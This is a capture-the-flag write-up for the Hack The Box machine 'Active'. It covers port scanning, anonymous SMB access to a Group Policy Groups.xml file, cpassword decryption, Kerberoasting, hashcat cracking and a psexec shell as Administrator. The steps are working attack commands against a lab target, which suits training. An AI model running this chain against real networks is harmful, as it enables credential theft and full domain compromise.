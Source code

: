 ```yaml
---
title: "HTB Active"
permalink: /writeups/active
location: default
---
```

# HTB Active

**Machine Information**

	IP : 10.10.10.100
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.100 -- -sC -sV
```

This should reveal a number of services including `kerberos`, `ldap`, and `smb`.

```
PORT      STATE SERVICE       REASON  VERSION
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-07-03 06:41:56Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5722/tcp  open  msrpc         syn-ack Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49152/tcp open  msrpc         syn-ack Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack Microsoft Windows RPC
49170/tcp open  msrpc         syn-ack Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 49509/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38631/udp): CLEAN (Timeout)
|   Check 4 (port 2846/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2024-07-03T06:42:54
|_  start_date: 2024-07-03T06:39:28
|_clock-skew: 0s
```

### Getting a Foothold

**SMB**

Running `smbmap` shows that there is one share with read-only access as an anonymous user.

```
smbmap -H 10.10.10.100
```

After manually exploring the file system we find a `Groups.xml` file in the following location:

```
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

Open the file to find a `cpassword` for the user `active.htb\SVC_TGS`.

This is an AES encrypted password but in 2014 Microsoft published the key on MSDN which allowed for all encrypted passwords to be decrypted. Unless these passwords were changed they are still vulnerable to decryption. Using `gpp-decrypt` we can get the plaintext password.

```
gpp-decrypt "PASSWORD HASH"
```

**Kerberoasting**

Using these credentials we can attempt to grab hashes using `impacket-GetUserSPNs`.

```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

**Hashcat**

We retrieved the hash for the Administrator user. We now attempt to crack it using `hashcat`.

```
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt
```

This successfully cracks these hash revealing the password for the Administrator user. With Administrator credentials we can connect to the target system using `impacket-psexec`.

```
impacket-psexec active.htb/administrator@10.10.10.100
```

With shell access grab the user flag.

```
type C:\Users\SVC_TGS\Desktop\user.txt
```

### Privilege Escalation

No privilege escalation is required so we can grab the root flag as well.

```
type C:\Users\Administrator\Desktop\root.txt
```
